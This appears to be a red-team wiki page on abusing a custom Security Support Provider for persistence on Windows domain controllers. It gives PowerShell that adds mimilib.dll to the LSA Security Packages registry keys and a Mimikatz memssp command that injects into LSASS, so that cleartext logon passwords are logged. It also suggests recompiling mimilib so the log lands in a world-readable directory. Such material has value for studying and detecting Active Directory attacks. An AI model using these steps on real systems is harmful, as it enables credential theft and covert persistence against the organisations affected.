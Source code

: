 # Custom SSP

Security Support Provider is a DLL which provides ways for an application to obtain an authenticated connection. - Noisy\
\
Microsoft SSPs:

* NTLM
* Kerberos
* Wdigest
* CredSSP

## Exploitation

Mimikatz can provide a custom SSP (mimilib.dll) which logs local logons, service account, and machine account passwords in clear text on the target server.

Drop the mimilib.dll to system32 and add mimilib to Security Packages:

```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

Using mimikatz, inject into LSASS (not stable but usable)

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

{% hint style="info" %}
All local logons on the DC are logged to C:\Windows\system32\mimilsa.log or C:\Windows\system32\kiwissp.log



To read above logs we need admin access on the DC or Domain Admin role which kinda defeats the purpose of persistence. So the other way is we can develop or re-compile the mimilib to store the log on any other world readable directory, using which the attacker/we can get the clear text passwords for the logons.
{% endhint %}
